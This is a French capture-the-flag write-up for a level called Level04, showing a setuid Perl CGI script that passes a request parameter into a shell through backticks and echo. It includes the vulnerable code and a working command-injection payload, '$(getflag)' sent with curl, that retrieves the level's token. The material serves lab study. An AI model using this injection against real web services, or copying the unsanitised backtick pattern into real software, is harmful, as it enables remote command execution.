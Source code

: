 # Level04

Premiere étape de recherche

	$ ls -la
	-rwsr-sr-x  1 flag04  level04  152 Mar  5  2016 level04.pl

On trouve un script perl avec setuid et setgid


```perl
#!/usr/bin/perl
# localhost:4747
use CGI qw{param};
print "Content-type: text/html\n\n";
sub x {
  $y = $_[0];
  print `echo $y 2>&1`;
}
x(param("x"));
```

Un script perl qui utilise CGI, donc servi par un serveur web, sur le port 4747 comme indiqué en commentaire

Testons avec curl

	$ curl -I localhost:4747
	HTTP/1.1 200 OK
	Date: Thu, 28 Nov 2019 11:04:23 GMT
	Server: Apache/2.2.22 (Ubuntu)
	Vary: Accept-Encoding
	Content-Length: 1
	Content-Type: text/html

Version commentée du script

```perl
#!/usr/bin/perl
# localhost:4747
use CGI qw{param};
print "Content-type: text/html\n\n";
# fonction qui affiche son argument via echo
sub x {
  $y = $_[0];
  print `echo $y 2>&1`;
}
# l'argument de la fonction x est le parametre nomme "x"
x(param("x"));
```

Le script affiche la valeur du parametre "x" de la requete

	$ curl 192.168.1.27:4747?x=coucou
	coucou

On peut injecter un subshell pour que echo affiche son resultat

	$ curl '192.168.1.27:4747?x=$(getflag)'
	Check flag.Here is your token : XXXXXXXXXXXXXXXXXXXX
